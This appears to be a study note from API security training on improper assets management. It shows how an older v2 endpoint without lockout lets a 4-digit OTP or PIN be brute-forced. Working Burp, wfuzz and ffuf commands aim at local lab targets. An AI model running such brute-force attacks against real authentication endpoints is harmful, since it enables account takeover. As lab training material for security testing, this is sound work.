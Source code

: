 ## APISEC Improper Assets Management

REST APIs should only expose supported endpoints and not expose non-production and/or unsupported endpoints (for example older version endpoints).

Note: Remember to look at headers of responses and requests!

for example:
```
/api/v3/...
/api/v2/...
or
api.test.target.com
/api/private
... so on 
```

When we want to test this we want to run both un-authorized and authorized tests.

In Burp its useful to replace the v2 for example with a {{ver}} that can then be set in an environment as an environment variable, in our case in Test Env.


In the example there is no attempt lock out for v2 but there is one for v3, we can then exploit the v2 with brute forcing to figure out the otp.

From Postman we proxy the POST request of OTP checking to burp, and we set the otp as the attack point. We can then set the payload to check 0000-9999 all combinations, since the otp as seen before is always a simple 4 number combination.
```
POST /identity/api/auth/v2/check-otp HTTP/1.1
Content-Type: application/json
Accept: */*
User-Agent: PostmanRuntime/7.43.0
Postman-Token: 7d777be5-9e85-4d2f-9933-c28b92b15a64
Host: localhost:8888
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 72

{
  "email": "hapihacker@email.com",
  "otp": "§<string>§",
  "password": "Password1!"
}
```

However, since this takes long in the free Burp, we'll use wfuzz via CLI command:
```
wfuzz -z file,./4-digits-0000-9999.txt \
-d '{"email": "hapihacker@email.com", "otp": "FUZZ", "password": "NewPassword1!"}' \
-H "Content-Type: application/json" http://127.0.0.1:8888/identity/api/auth/v2/check-otp -hc 500
```
Which completes the checkup for OTP combination much faster! (again if we had pro version of Burp Suite we could do this with that instead)

This was an improper authentication test. We can conduct a similar one by grabbing the authentication token, using postman with burp and figuring out what endpoints give us extra information.

The quiz task was to find a similar number combination but instead of otp, it was for pin, this could be achieved with ffuff or wfuzz

ffuff:
```
ffuf -w ./numbers.txt -X POST -d '{"username":"richardbranson","pin":"FUZZ"}' -H "Content-Type: application/json" -u http://127.0.0.1/vapi/api9/v1/user/login -fs 0
```


